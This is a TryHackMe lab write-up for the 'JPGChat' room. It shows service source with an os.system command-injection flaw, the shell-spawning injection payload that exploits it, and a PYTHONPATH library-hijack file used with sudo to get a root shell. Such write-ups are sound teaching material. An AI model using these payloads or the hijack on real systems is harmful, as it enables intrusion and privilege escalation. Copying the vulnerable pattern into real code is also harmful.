



# JPGChat - TryHackMe Writeup

## Room Information
- Platform: TryHackMe
- Room: JPGChat
- Difficulty: Easy
- Focus: Command Injection, Python Library Hijacking

---

# Recon

started with an Nmap scan to identify the open ports and services running on the target.

```bash
nmap -sC -sV -oN nmap.txt <TARGET-IP>
```

### Result



Port 22 was running SSH and port 3000 looked like a custom service.

---

# Enumerating Port 3000

I connected to the service using netcat.

```bash
nc <TARGET-IP> 3000
```

The service displayed the following message:

```text
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

The mention of GitHub immediately looked interesting, so I tested both available options first.

Using `[MESSAGE]` only opened a basic chat feature.

Using `[REPORT]` revealed a username:

```text
this report will be read by Mozzie-jpg
```

At this point I decided to search for the source code online.

---

# OSINT

Searching for:

```text
Mozzie-jpg JPGChat
```

led me to the application's source code.

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

    print ('this report will be read by Mozzie-jpg')
    your_name = input('your name:\n')
    report_text = input('your report:\n')
    os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
    os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

    print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
    print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
    message = input('')

    if message == '[REPORT]':
        report_form()
    if message == '[MESSAGE]':
        print ('There are currently 0 other users logged in')
        while True:
            message2 = input('[MESSAGE]: ')
            if message2 == '[REPORT]':
                report_form()

chatting_service()
```

---

# Finding the Vulnerability

The vulnerable part was:

```python
os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

The application directly inserted user input into a bash command without sanitizing it.

This means command injection was possible.

---

# Exploitation

I used the following payload in the report field:

```text
bla';/bin/bash;echo '
```

The final command executed by the server became:

```bash
bash -c 'echo bla';/bin/bash;echo ' >> /opt/jpchat/logs/report.txt'
```

This successfully spawned a shell.

```bash
nc <TARGET-IP> 3000
```

```text
[REPORT]
this report will be read by Mozzie-jpg
your name:
test
your report:
bla';/bin/bash;echo '
```

Checking the current user:

```bash
id
```

```text
uid=1001(wes) gid=1001(wes) groups=1001(wes)
```

---

# Stabilizing the Shell

To make the shell more interactive:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

After getting a proper interactive shell, I continued working directly from the current session instead of adding an SSH key.

---

# User Flag

```bash
cd /home/wes
ls -la
cat user.txt
```

```text
<USER FLAG>
```

---

# Privilege Escalation

I checked the sudo permissions.

```bash
sudo -l
```

### Result



The important part here was:

```text
env_keep+=PYTHONPATH
```

This means the `PYTHONPATH` environment variable is preserved when running sudo.

---

# Analyzing the Python Script

```bash
cat /opt/development/test_module.py
```

```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

The script imports a module named `compare`.

This opened the door for Python Library Hijacking.

---

# Python Library Hijacking

I created a malicious `compare.py` file.

```bash
cd /tmp
nano compare.py
```

Content:

```python
import os
os.system('/bin/bash')
```

Then I exported the current directory into `PYTHONPATH`.

```bash
export PYTHONPATH=/tmp
```

Finally, I executed the allowed sudo command.

```bash
sudo /usr/bin/python3 /opt/development/test_module.py
```

This gave me a root shell.

```bash
id
```



---

# Root Flag

```bash
cd /root
cat root.txt
```

```text
<ROOT FLAG>
```

---

# Conclusion

This room was a really fun beginner-friendly machine that covered:

- Basic enumeration
- OSINT
- Command Injection
- Python Library Hijacking
- Linux privilege escalation

The initial foothold was achieved through insecure usage of `os.system()` with unsanitized user input.

Privilege escalation was possible because the application preserved `PYTHONPATH` while running a Python script as root.

Overall, this room was great practice for understanding how dangerous unsafe command execution and insecure Python imports can be.

